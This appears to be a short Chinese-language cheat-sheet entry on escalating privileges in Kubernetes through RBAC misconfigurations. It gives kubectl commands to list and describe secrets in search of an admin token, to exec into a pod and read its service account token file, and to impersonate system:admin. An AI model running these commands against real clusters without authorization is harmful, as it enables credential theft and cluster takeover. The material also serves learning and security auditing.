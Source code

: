 #### RBAC - 列出密钥
	如果用户附加了一个角色，允许他们列出密钥，可能会滥用它来提升权限。 当列出存储在集群中的所有机密时，其中之一将是管理令牌，允许攻击者在集群中获得最高权限
	> kubectl get secrets #记录NAME
	> kubectl describe secrets "NAME"
#### RBAC - Pod 执行
	如果你的用户对"pods/exec"资源具有“创建”权限，可以在运行的 pod 上执行 shell 命令。
	连接到pod
	> kubectl exec --stdin --tty NAME_OF_POD -- /bin/bash
	查看令牌
	> cat /var/run/secrets/kubernetes.io/serviceaccount/token
#### RBAC - 模拟
	如果用户有能力模拟用户或组，则可以利用它来提升权限
	> kubectl get secret --as=system:admin
	如上面的命令所示，您可以使用“--as”命令指定执行命令的用户。
